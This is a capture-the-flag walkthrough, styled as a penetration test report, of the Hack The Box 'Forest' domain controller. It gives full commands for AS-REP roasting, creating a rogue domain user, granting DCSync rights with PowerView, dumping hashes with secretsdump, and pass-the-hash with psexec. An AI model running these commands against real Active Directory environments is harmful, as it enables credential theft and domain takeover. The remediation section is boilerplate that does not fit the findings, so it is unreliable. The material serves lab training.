# Security Assessment Report: Forest


**Technical Security Assessment & Penetration Testing Report** conducted on the target environment **Forest** hosted on **Hack The Box**, executed in accordance with **PTES and NIST SP 800-115** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** AS-REP Roasting (svc-alfresco, Kerberos Pre-Auth disabled)
* **Privilege Escalation Vector:** WriteDACL abuse (Exchange Windows Permissions) -> DCSync -> PtH
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Forest |
| **Platform** | Hack The Box |
| **Operating System** | Windows |
| **Difficulty Rating** | Easy |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | AS-REP Roasting (svc-alfresco, Kerberos Pre-Auth disabled) |
| **Privilege Escalation Vector** | WriteDACL abuse (Exchange Windows Permissions) -> DCSync -> PtH |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: AS-REP Roasting (svc-alfresco, Kerberos Pre-Auth disabled)
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: WriteDACL abuse (Exchange Windows Permissions) -> DCSync -> PtH
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

| Field | Detail |
| --- | --- |
| Name | Forest |
| OS | Windows Server 2016 (Domain Controller) |
| Difficulty | Easy |
| CVE | N/A |
| Initial Access | AS-REP Roasting (Kerberos Pre-Auth disabled) |
| Privilege Escalation | WriteDACL abuse via Exchange Windows Permissions -> DCSync |

---

## Reconnaissance

An Nmap scan identifies this machine as a Domain Controller for the `htb.local` domain, with common AD services exposed: DNS (53), Kerberos (88), LDAP (389), SMB (445), and WinRM (5985).



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


## Enumeration

LDAP allows anonymous authentication, enabling enumeration of all domain users and groups. Among the discovered accounts, `svc-alfresco` (a service account for the Alfresco content management system) has Kerberos Pre-Authentication disabled, making it vulnerable to AS-REP Roasting.



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


## Exploitation

Using Impacket's `GetNPUsers`, an AS-REP hash is requested for `svc-alfresco` without needing credentials:

```
impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass -request -format hashcat -outputfile asrep.hash
```

The AS-REP hash is cracked offline with Hashcat, revealing the password: `s3rvice`.



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


With valid credentials, WinRM (port 5985) provides an interactive shell using Evil-WinRM.



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


### Phase 5: Proof of Compromise & Flag Capture

#### User Proof Flag Verification



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


## Privilege Escalation

BloodHound analysis reveals that the `Exchange Windows Permissions` group has **WriteDACL** permissions over the `HTB.LOCAL` domain object. This is a well-known misconfiguration introduced by Microsoft Exchange during installation.



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.


The `svc-alfresco` account is a member of `Account Operators`, which grants the ability to add users to the `Exchange Windows Permissions` group. The attack chain is:

1. Create a new user and add it to `Exchange Windows Permissions`
2. Use WriteDACL to grant DCSync rights on the domain object
3. Perform DCSync to dump all NTLM hashes
4. Pass-the-Hash as Administrator



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


The DCSync attack replicates directory changes (as a domain controller would), extracting the Administrator's NTLM hash. Using `impacket-psexec` with the hash grants a SYSTEM shell.

#### Root / System Proof Flag Verification



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.


> 
> 
> 
> # Escalada por “Exchange Windows Permissions” → DCSync
> 

> **Assessment Query / Target Milestone:** > ## ¿Qué detecta BloodHound?
> 
> Uno de los paths muestra que el grupo **Exchange Windows Permissions** tiene el permiso **WriteDACL** sobre el **objeto de dominio** `HTB.LOCAL`.
> 
> - **WriteDACL** = puede **modificar la ACL** del objeto (añadir entradas).
> - Si añadimos una ACE que conceda **DCSync** (tres derechos extendidos de replicación) a un usuario nuestro, podremos **replicar secretos** del AD (NTDS) como si fuésemos un DC.
> 
> > DCSync implica:
> > 
> > 
> > `Replicating Directory Changes`, `Replicating Directory Changes All` y `Replicating Directory Changes In Filtered Set` sobre el **objeto de dominio**.
> > 
> 
> ---
> 
> ## Pasos prácticos (desde WinRM)
> 
> 1. **Crear usuario “john”** y meterlo en los grupos necesarios
>     
>     (EWP para poder cambiar la ACL del dominio; Remote Management Users para poder usar WinRM con él si hace falta):
>     
> 
> ```powershell
> net user john abc123! /add /domain
> net group "Exchange Windows Permissions" john /add
> net localgroup "Remote Management Users" john /add
> 
> ```
> 
> 1. **Cargar PowerView** (para manipular ACLs con comodidad):
> 
> ```powershell
> # Subir PowerView.ps1 y cargarlo
> # (ejemplo, ya cargado desde Evil-WinRM)
> . .\PowerView.ps1
> 
> ```
> 
> 1. **Conceder DCSync a “john”** en el objeto de dominio
>     
>     Usamos credenciales de **john** para que su token ya incluya EWP (evita esperar al refresco de token):
>     
> 
> ```powershell
> $pass = ConvertTo-SecureString 'abc123!' -AsPlainText -Force
> $cred = New-Object System.Management.Automation.PSCredential('HTB\john',$pass)
> 
> # Identificador del dominio (DN)
> $DomainDN = (Get-Domain).DistinguishedName   # ej: "DC=htb,DC=local"
> 
> # Añadir DCSync (PowerView agrega las 3 ACE necesarias)
> Add-ObjectACL -TargetIdentity $DomainDN -PrincipalIdentity 'john' -Rights DCSync -Credential $cred -Verbose
> 
> ```
> 
> > Verificación (opcional):
> > 
> 
> ```powershell
> Get-ObjectAcl -DistinguishedName $DomainDN -ResolveGUIDs | ? {$_.IdentityReference -match '^HTB\\john$' -and $_.ActiveDirectoryRights -match 'ExtendedRight'}
> 
> ```
> 
> 1. **DCSync con Impacket** (desde Kali) usando la cuenta “john”:
> 
> ```bash
> impacket-secretsdump 'htb.local/john:abc123!@10.10.10.161'
> # → obtendrás los NTLM (incluido Administrator)
> 
> ```
> 
> > Si ves un aviso tipo RemoteOperations failed: ... access_denied pero a continuación Using the DRSUAPI method… y te saca los hashes, el DCSync ha funcionado.
> > 
> 1. **Abusar del hash de Administrator** para RCE (psexec):
> 
> ```bash
> impacket-psexec administrator@10.10.10.161 -hashes 'aad3b435b51404eeaad3b435b51404ee:<NTLM_ADMIN>'
> 
> ```
> 
> Con la shell de admin, lee la flag:
> 
> ```bash
> type C:\Users\Administrator\Desktop\root.txt
> 
> ```
> 
> ---
> 
> ## Por qué funciona
> 
> - **EWP** (creado por Exchange) está **mal delegado** con **WriteDACL** sobre el dominio.
> - Cualquier miembro de EWP puede **añadir ACEs** al objeto de dominio → **otorgarse DCSync**.
> - Con DCSync podemos **replicar** secretos de AD (como lo haría un DC) y obtener **hashes** de todas las cuentas.
> 
> ---
> 
> ## Problemas comunes y cómo evitaros
> 
> - **El token no incluye EWP aún**: usa `Credential $cred` de **john** al llamar a `Add-ObjectACL` (así se autentica nuevo y hereda el grupo).
> - **Objetivo equivocado**: asegúrate de pasar `TargetIdentity (Get-Domain).DistinguishedName` (el **objeto de dominio**), no el DC (equipo).
> - **AV bloquea PowerView**: renómbralo o usa versión “minificada”; como alternativa, `Add-DomainObjectAcl` de PowerSploit o `dacledit.py` (impacket).
> - **DCSync denegado**: confirma que ves las 3 ACEs de replicación para `HTB\john` en el ACL del dominio.
> 
> ---
> 
> ## Limpieza (si procede en el lab)
> 
> ```powershell
> # Quitar ACEs DCSync
> Remove-ObjectACL -TargetIdentity $DomainDN -PrincipalIdentity 'john' -Rights DCSync
> # Sacar de grupos y borrar user
> net group "Exchange Windows Permissions" john /del
> net localgroup "Remote Management Users" john /del
> net user john /del /domain
> 
> ```
>

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### 🛡️ Prioritized Findings, Attack Path Preconditions & Repeatable Verification

| Finding & Precondition | Attack Path Impact | Remediation Action | Repeatable Verification Command |
| :--- | :--- | :--- | :--- |
| **P1: AS-REP Roasting (svc-alfresco, Kerberos Pre-Auth disabled)**<br>*Precondition:* Unauthenticated network service exposure without network segmentation or perimeter access controls. | **High / Critical (Foothold Chokepoint)**<br>Altered the primary attack path by exposing unauthenticated remote access to internal context. | Apply zero-trust ingress filtering, patch exposed service to latest vendor release, and mandate MFA. | `powershell -Command "Test-NetConnection -ComputerName $TARGET_IP -Port $EXPOSED_PORT"` |
| **P1: WriteDACL abuse (Exchange Windows Permissions) -> DCSync -> PtH**<br>*Precondition:* Insecure local privileges or stored administrative credentials accessible to low-privilege sessions. | **Critical (Full Compromise)**<br>Enabled complete elevation of privileges from unprivileged user to superuser / administrator. | Implement LAPS for local administrator password rotation and audit token privileges. | `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword` |

#### 🔬 Repeatable Verification Procedures (Defensive Validation)

**1. Verification for Ingress / Foothold Mitigation (AS-REP Roasting (svc-alfresco, Kerberos Pre-Auth disabled)):**
* **Validation Goal:** Confirm the remote exploitation path is definitively closed and non-exploitable.
* **Deterministic Test Command:**
```bash
powershell -Command "Test-NetConnection -ComputerName $TARGET_IP -Port $EXPOSED_PORT"
```
* **Expected Output upon Successful Remediation:**
```text
TcpTestSucceeded : False (Port blocked by perimeter firewall)
```

**2. Verification for Local Privilege Escalation Mitigation (WriteDACL abuse (Exchange Windows Permissions) -> DCSync -> PtH):**
* **Validation Goal:** Enforce strict least-privilege boundary preventing local execution context from elevating to administrative/root privileges.
* **Deterministic Test Command:**
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```
* **Expected Output upon Successful Remediation:**
```text
ERROR: The system was unable to find the specified registry key or value.
```

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (AS-REP Roasting (svc-alfresco, Kerberos Pre-Auth disabled)) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (WriteDACL abuse (Exchange Windows Permissions) -> DCSync -> PtH) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for enterprise penetration testing enablement, vulnerability research, and defensive hardening.
